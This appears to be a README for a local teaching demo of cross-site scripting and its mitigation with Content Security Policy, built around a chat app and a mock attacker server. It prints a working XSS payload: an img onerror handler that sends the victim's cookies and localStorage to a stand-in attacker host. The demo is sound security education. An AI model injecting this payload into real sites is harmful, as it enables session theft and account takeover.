 # Cross-Site Scripting & Content Security Policy Demo

## Setup

Open a terminal and navigate to the project's root directory.

1. `yarn install`
2. `yarn start:server`
3. In a separate terminal (same directory): `yarn start:client`
4. In a separate terminal (same directory): `yarn start:evil`

## Demonstrate the vulnerability

1. Open the chat app at [http://localhost:4000?user=Bob](http://localhost:4000?user=Bob) in your browser window.
2. Open the chat app at [http://localhost:4000?user=Alice](http://localhost:4000?user=Alice) in an incognito/private window (to make sure cookies are not shared between the two windows).
3. Paste the following malicious message in the chat and press "Send":

```
How's it going? <img style="display:none;" src="http://url.to.file.which/not.exist" onerror="javascript:fetch('http://localhost:5000', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ localStorage: Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`), cookies: document.cookie })}); alert(`I just stole your auth cookie ${document.cookie} and the contents of your localStorage ${Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`)}`);">
```

4. Check the terminal that's running `evilServer.js` - You'll see both the sender (attacker) and recipient's cookies and localStorage have been stolen and logged!

## Demonstrate the fix with Content Security Policy

1. Close both chat app windows.
2. Open fixed versions at [http://localhost:4000/secure?user=Bob](http://localhost:4000/secure?user=Bob) in your browser window and [http://localhost:4000/secure?user=Alice](http://localhost:4000/secure?user=Alice) in an incognito/private window.
3. Send the malicious message again.
4. Note that although the malicious message was delivered to the recipient, the browser blocked the script execution, image loading, and inline styles. Checking the terminal running `evilServer.js` reveals that the attacker didn't receive any information.
